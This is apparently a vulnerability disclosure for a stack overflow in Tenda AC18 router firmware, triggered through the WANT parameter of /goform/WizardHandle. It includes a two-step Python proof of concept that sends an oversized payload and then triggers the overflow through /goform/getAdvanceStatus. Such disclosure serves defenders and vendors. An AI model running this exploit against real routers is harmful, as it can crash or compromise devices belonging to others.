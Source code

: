 ## Overview

- The device's official website: https://www.tenda.com.cn/product/A18.html
- Firmware download website: https://www.tenda.com.cn/material/show/2683

## Affected version

V15.03.05.19(6318)

## Vulnerability details

In the TendaAC18 Firmware has a stack overflow vulnerability in the `/goform/WizardHandle` url. The `nptr` variable receives the `WANT` parameter from a POST request and is stored in the configuration item named`wan1.connecttype` through the SetValue function.To bypass the atoi function, the payload needs to start with the number 0.In order to parse %d as 1, it is also necessary to set the value of the `WANS` parameter to 1.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20250926_165442.png)

`wan1.connecttype`  configuration item can  be retrieved through the GetValue function in the `/goform/getAdvanceStatus` url.However, neither the GetValue function nor the SetValue function impose any restrictions on the length of variables, which can lead to stack overflows.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20250926_170347.png)

## PoC

first SetValue

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/WizardHandle"
payload = "0"+"a"*1000

data = {"WANT": payload,"WANS":1}
response = requests.post(url, data=data)
print(response.text)
```

second GetValue

```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/getAdvanceStatus"
response = requests.post(url)
print(response.text)
```

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20250926141817071.png)